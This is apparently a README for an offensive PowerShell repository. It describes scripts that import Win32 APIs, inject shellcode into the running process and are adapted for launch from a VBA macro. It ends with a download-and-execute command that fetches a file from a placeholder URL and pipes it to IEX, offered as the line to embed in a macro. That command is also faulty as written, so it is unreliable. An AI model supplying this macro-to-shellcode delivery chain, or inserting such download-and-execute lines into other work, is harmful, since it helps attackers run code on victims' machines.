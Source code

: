 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In InvokeWin32APIs.ps1, we learn how to import some Win32 APIs over C# code. 
- In ShellCodeLauncher.ps1, we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In VBAenvlauncher.ps1 we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with PSHTTPDownloader.vba, the str var must contian the follwoing line:

powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX